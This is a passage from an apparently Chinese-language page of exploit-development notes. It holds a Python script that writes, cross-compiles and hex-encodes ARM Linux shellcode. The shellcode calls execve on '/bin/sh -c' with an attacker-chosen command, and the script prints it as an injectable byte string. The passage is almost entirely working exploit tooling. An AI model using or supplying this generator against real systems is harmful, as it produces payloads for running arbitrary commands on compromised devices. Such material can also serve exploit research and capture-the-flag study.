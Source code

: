 ```python 
    output.append(f"{var_name}[{length - 1}] = '\\0';")
    return "\n".join(output)


# 示例用法


shecode_c="""
#include <sys/syscall.h>
void _start() {"""+f"""
   {format_c_char_array("arg0", "/bin/sh")}
   {format_c_char_array("arg1", "-c")}
   {format_c_char_array("arg2", sys.argv[1])}
"""+"""
    char *args[] = {arg0, arg1, arg2, 0};
    __asm__ volatile (
        "mov r7, %0\\n\\t"        
        "mov r0, %1\\n\\t"        
        "mov r1, %2\\n\\t"        
        "mov r2, #0\\n\\t"       
        "svc #0\\n\\t" 
        :
        : "i"(11), "r"(arg0), "r"(args)
        : "r0", "r1", "r2", "r7"
    );

}
"""
with open("./shellcode.c","w")as fd:
    fd.write(shecode_c)

os.system("rm ./shellcode ./shellcode.bin")
gccpath="/opt/cross/bin/"
os.system(f"""{gccpath}/arm-linux-musleabi-gcc -nostdlib -O0 -fno-pic -fno-builtin -o ./shellcode ./shellcode.c""")
os.system(f"{gccpath}/arm-linux-musleabi-objcopy -O binary ./shellcode ./shellcode.bin")
          
os.system(r"""xxd -p ./shellcode.bin | tr -d '\n' | sed 's/\(..\)/\\x\1/g' | sed 's/^/b"/;s/$/"/'""")
```


![](image/image_SypOSUoCHA.png)
